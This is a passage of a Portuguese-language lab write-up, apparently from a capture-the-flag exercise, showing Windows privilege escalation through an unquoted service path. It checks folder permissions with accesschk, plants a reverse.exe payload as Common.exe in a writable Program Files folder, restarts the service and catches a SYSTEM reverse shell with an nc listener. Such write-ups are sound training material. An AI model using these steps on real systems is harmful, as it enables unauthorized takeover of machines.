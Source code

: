 ```cmd
        SERVICE_START_NAME : LocalSystem

```

Note que o `BINARY_PATH_NAME` do serviço `unquotedsvc` não está entre aspas, isso significa que o serviço irá tentar executar o arquivo `unquotedpathservice.exe` que está dentro da pasta `Common Files`.

<div class="page"/>

Usando o `accesschk.exe` podemos verificar as permissões do nosso usuário.

```cmd

PS C:\Users\user\Desktop> C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

```

Aqui podemos ver que o usuário `user` tem permissão de escrita na pasta `C:\Program Files\Unquoted Path Service\`, então vamos criar um payload dentro dessa pasta.

```cmd
PS C:\Users\user\Desktop> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Agora vamos reiniciar o serviço `unquotedsvc` com o comando `net start unquotedsvc`  e verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:00:37
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49754
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

e para concluir esse tópico temos que responder qual o `BINARY_PATH_NAME` do serviço `unquotedsvc`.

![unquotedsvc](unquotedsvc.png)

---